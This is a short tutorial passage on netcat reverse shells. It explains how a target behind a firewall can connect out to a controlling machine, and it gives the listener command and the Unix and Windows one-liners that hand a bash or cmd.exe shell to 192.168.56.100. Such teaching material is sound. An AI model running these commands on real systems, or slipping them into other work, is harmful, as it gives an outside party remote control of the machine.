

Reverse Shell
Reverse Shell
One of the drawbacks of “bind shell” is that if the target system – the one we want to control – is behind a firewall, our listening port might be blocked. Let’s even further assume that the firewall is blocking all incoming ports to the target system, and only allowing certain outbound ports. That is, the target system can initial connection to the outside world on certain ports. In this case, we cannot use bind shell. The following diagram illustrates this scenario:


To implement this with Netcat, we need to set a listener on our controlling system. We will use port number 12345 for the sake of this example:
netcat –v –l –p 12345
Then, on the target system, we will issue either of these commands, depending on the OS:
UNIX/LINUX# netcat –e /bin/bash 192.168.56.100 12345
Windows> nc –e cmd.exe 192.168.56.100 12345